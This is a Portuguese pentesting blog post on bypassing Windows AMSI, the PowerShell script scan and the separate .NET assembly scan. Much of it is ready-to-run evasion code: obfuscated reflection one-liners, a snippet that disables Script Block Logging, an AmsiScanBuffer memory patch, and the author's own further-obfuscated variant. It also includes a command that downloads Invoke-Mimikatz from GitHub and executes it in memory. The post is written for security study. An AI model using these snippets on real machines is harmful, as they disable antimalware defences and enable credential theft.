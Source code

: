 ```yaml
---
title: Bypass de processos específicos de AMSI
author: H41stur
date: 2023-03-06 01:00:00 -0300
categories: [Estudos, AMSI Bypass]
tags: [AMSI, .NET, PowerShell]
image: "/img/posts/amsi.jpg"
alt: "Pentesting Android"
---
```


![Bypass de processos específicos de AMSI](/img/posts/amsi.jpg)


- [Introdução](#introdução)
- [*Bypass* de AMSI no Powershell](#bypass-de-amsi-no-powershell)
- [Diferença entre *Bypass* do AMSI do PowerShell e Processos Específicos do AMSI](#diferença-entre-bypass-do-amsi-do-powershell-e-processos-específicos-do-amsi)


## Introdução

AMSI (*Antimalware Scan Interface*) é uma interface de programação de aplicativos (API) do Windows que permite que os aplicativos antivírus e outros softwares de segurança possam detectar e impedir a execução de *malwares* e scripts maliciosos em tempo de execução.

A AMSI foi introduzida no Windows 10 e no Windows Server 2016 e, desde então, tem sido amplamente adotada por vários aplicativos antivírus e softwares de segurança. A AMSI fornece uma camada adicional de segurança ao sistema operacional, permitindo que os aplicativos de segurança detectem *malwares* que podem passar despercebidos pelos softwares antivírus tradicionais. Ela pode ser usada para detectar e bloquear scripts maliciosos em várias linguagens de programação, como PowerShell, VBScript e JavaScript, além de outras formas de *malwares* que podem estar escondidos em arquivos ou em comunicações de rede.

Acontece que durante um teste em ambiente Windows, principalmente em *Active Directory* precisamos executar diversos scripts em PowerShell que, por muitas vezes, são considerados maliciosos (com razão) pelo AMSI. Para tanto é preciso uma forma de *bypass* deste mecanismo, a fim de "enganar" este sistema.

Existem vários métodos conhecidos, e funcionais disponíveis na internet, porém, nem todos são eficazes, pois o que é pouco divulgado, é fato de que, em algumas situações, existe mais de uma camada de AMSI para lidar.


## *Bypass* de AMSI no Powershell

Normalmente, para carregar um script PowerShell em memória para evitar detecção de arquivo malicioso por antivírus, utilizamos a função `Invoke-Expression`, em casos normais, como, por exemplo, importar o `Invoke-Mimikatz`, utilizamos da seguinte forma:

```powershell
iex(New-object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1')
```

Porém, o próprio AMSI do PowerShell reconhece este script como malicioso e geralmente nos retorna a seguinte mensagem:

![Detecção do AMSI](/img/posts/2023-03-06_16-19.png)

A mensagem `This script contains malicious content and has been blocked by your antivirus software.` é bem específica e nos mostra de forma clara que o AMSI considera o script como malicioso. Para tanto, existe uma infinidade de scripts públicos para o *bypass* do AMSI do PowerShell, além da possibilidade de tentar qualquer um disponível no [amsi.fail](https://amsi.fail/).

Podemos utilizar um dos comandos comuns como os abaixo para tentarmos efetuar o *bypass* como este:

```powershell
[ReF]."`A$(echo sse)`mB$(echo L)`Y"."g`E$(echo tty)p`E"(( "Sy{3}ana{1}ut{4}ti{2}{0}ils" -f'iUt','gement.A',"on.Am`s",'stem.M','oma') )."$(echo ge)`Tf`i$(echo El)D"(("{0}{2}ni{1}iled" -f'am','tFa',"`siI"),("{2}ubl{0}`,{1}{0}" -f 'ic','Stat','NonP'))."$(echo Se)t`Va$(echo LUE)"($(),$(1 -eq 1))
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Este comando por sua vez, efetua o *bypass* do AMSI do PowerShell, nos permitindo importar o script em memória sem problemas, conforme abaixo.

![Bypass do AMSI no PwerShell](/img/posts/2023-03-06_16-39.png)

Porém, se tentarmos executá-lo, seremos apresentados a um novo erro.

![Erro na execução](/img/posts/2023-03-06_16-44.png)

```
Exception calling "Load" with "1" argument(s): "Could not load file or assembly '510976 bytes loaded from
Anonymously Hosted DynamicMethods Assembly, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null' or one
of its dependencies. An attempt was made to load a program with an incorrect format."
```
Diferente da mensagem de erro anterior, esta não nos diz absolutamente nada que a relacione com o AMSI, só informa que o formato dos binários estão incorretos.

Porém `AINDA ESTAMOS LIDANDO COM O AMSI!`

Neste caso, efetuamos o *bypass* do AMSI para o PowerShell em si, porém a `[System.Reflection.Assembly]::Load($byteOutArray)` "triggou" o `AMSI-Scan` para o binário `.NET`.

## Diferença entre *Bypass* do AMSI do PowerShell e Processos Específicos do AMSI

Primeiramente é preciso entender como os processos conhecidos de *bypass* de AMSI funcionam, abaixo estão alguns dos métodos mais utilizados:

```powershell
# forçando um erro:
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)

# Desabilitando o Script Logging:
$settings = [Ref].Assembly.GetType("System.Management.Automation.Utils").GetField("cachedGroupPolicySettings","NonPublic,Static").GetValue($null);
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"] = @{}
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"].Add("EnableScriptBlockLogging", "0")

# Matt Graebers Reflection method:
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Basicamente o que estes *snippets* fazem, é desabilitar o *PowerShell Script-Logging* ou alteram os sub-valores do *namespace* `System.Management.Automation`. O `System.Management.Automation` é basicamente o *namespace* raiz do PowerShell.

O que podemos entender, é que estas técnicas, são específicas para o PowerShell, e afetam apenas a interface de verificação *antimalware* para o código de script do próprio Powershell.

Portanto, mesmo alterando os sub-valores do *namespace* `System.Management.Automation`, não iremos quebrar o `.NET AMSI-Scan`, pois este não está relacionado com o PowerShell.

Acontece que quando iniciamos uma chamada no PwerShell a `amsi.dll` é carregada em um novo processo para fazer o *hook* de qualquer entrada em linha de comando e analisar o conteúdo das chamadas para `[System.Reflection.Assembly]::Load()`. Portanto, uma das técnicas mais eficazes para o *bypass* do .NET AMSI-Scan, é com `memory patching` do `amsi.dll`. Um artigo completo sobre esta técnica pode ser encontrado [aqui](https://rastamouse.me/memory-patching-amsi-bypass/). Neste caso, a `[System.Reflection.Assembly]::Load()` não cria um novo processo, portanto, efetuar o `memory patching` resultara no *bypass* tanto do *script-code* do PowerShell quanto do .NET AMSI-Scan.

Abaixo o exemplo de *bypass*  sugerido no artigo:

```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

Na maior parte dos casos, este script é funcional, porém como o processo do .NET AMSI-Scan também procura por *strings*, como `amsi.dll`, `AmsiScanBuffer`, `Invoke-Mimikatz` entre várias outras, acredito que o script possa ser melhorado para "encodar" estas *strings*, podendo ficar da seguinte forma:

```powershell
$AQERT = @"
using System;
using System.Runtime.InteropServices;
public class AQERT {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $AQERT

$POCVBOIU = [AQERT]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$IMUNT = [AQERT]::GetProcAddress($POCVBOIU, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[AQERT]::VirtualProtect($IMUNT, [uint32]5, 0x40, [ref]$p)
$FGJT = "0xB8"
$CXWE = "0x57"
$LKAS = "0x00"
$QAWS = "0x07"
$YHNM = "0x80"
$PLMN = "0xC3"
$AZKIU = [Byte[]] ($FGJT,$CXWE,$LKAS,$QAWS,+$YHNM,+$PLMN)
[System.Runtime.InteropServices.Marshal]::Copy($AZKIU, 0, $IMUNT, 6)
```

Ao executarmos este script, faremos um *bypass* "global" do AMSI, permitindo a execução do script sem erros.

![Bypass global do AMSI](/img/posts/2023-03-06_17-27.png)


## Referências

- [amsi.fail](https://amsi.fail)
- [AmsiScanBufferBypass](https://rastamouse.me/memory-patching-amsi-bypass/)
- [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)